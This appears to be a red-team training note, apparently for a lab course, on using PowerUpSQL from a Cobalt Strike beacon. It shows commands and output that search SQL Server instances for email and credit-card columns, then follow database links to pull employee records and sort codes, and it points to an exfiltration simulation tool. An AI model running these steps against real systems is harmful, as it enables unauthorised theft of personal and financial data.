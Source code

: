 
Description of Topic/Concept/Tool/Technology goes here

#### 🖊️ via Cobalt Strike

PowerUpSQL provides various cmdlets designed for data searching and extraction.  One such cmdlet is `Get-SQLColumnSampleDataThreaded`, which can search one or more instances for databases that contain particular keywords in the column names.

1) Search (it will only search for instances you have access to):

```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column                   Sample                  
--------                     -------- ------                   ------                  
sql-2.dev.cyberbotic.io,1433 master   email                    ritzhaki0@gov.uk        
sql-2.dev.cyberbotic.io,1433 master   email                    ldureden1@angelfire.com 
sql-2.dev.cyberbotic.io,1433 master   email                    gfaussett2@quantcast.com
sql-2.dev.cyberbotic.io,1433 master   email                    bcrumb3@cpanel.net
```

2) The previos command won't traverse any SQL links. To search over the links use `Get-SQLQuery`.

```
 beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_dev      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          employees             BASE TABLE
master        dbo          spt_values            VIEW
```

Notice how it searches for a link between the DB that we find we can access and the other one.

3) Using the link you can list columns

```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"

column_name   
-----------   
id            
first_name    
last_name     
gender
```

4) And you can then take the data samples:

```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"

first_name gender sort_code
---------- ------ ---------
Juliann    Female 09-46-87 
Rhodie     Female 89-74-73 
Calypso    Female 77-33-04
```

To simulate data exfiltration of large dataset, have a look at [Egress Assess](https://github.com/FortyNorthSecurity/Egress-Assess).


#### ⚠ Opsec




### Properties
---
📆 created   {{29-02-2024}} 22:38
🏷️ tags: #redteam #crto 

---

